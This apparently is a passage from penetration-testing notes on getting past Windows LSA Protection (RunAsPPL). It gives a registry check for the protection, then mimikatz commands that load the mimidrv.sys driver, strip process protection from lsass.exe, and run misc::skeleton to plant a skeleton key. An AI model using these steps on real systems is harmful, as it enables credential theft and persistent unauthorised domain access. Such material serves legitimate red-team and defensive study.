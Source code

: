 ![](<../../../../.gitbook/assets/image (1989).png>)

We can check if the LSA Protection RunAsPPL key exists by querying the registry to confirm the LSA protection is in place.

```bash
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "RunAsPPL"
# Value 0x1 means LSA Protection is enabled
```

This can be bypassed however by utilizing the mimidrv.sys driver file which is included as a separate file with mimikatz.

{% hint style="info" %}
The mimidrv.sys driver file needs to exists in the same directory as mimikatz.exe.
{% endhint %}

The driver can be loaded by running the command `!+` in `Mimikatz`. After doing so the follow command can be execute to protect the `mimikatz.exe` process.

```bash
!processProtect /process:mimikatz.exe
```

The same command with the `/remove` flag can be used to strip the process protection from a process such as `lsass.exe`

```bash
!processprotect /process:lsass.exe /remove
```

After doing so it is possible to bypass the LSA protection as shown below where the command `misc::skeleton` is performed and successfully completes.

![](<../../../../.gitbook/assets/image (1990).png>)
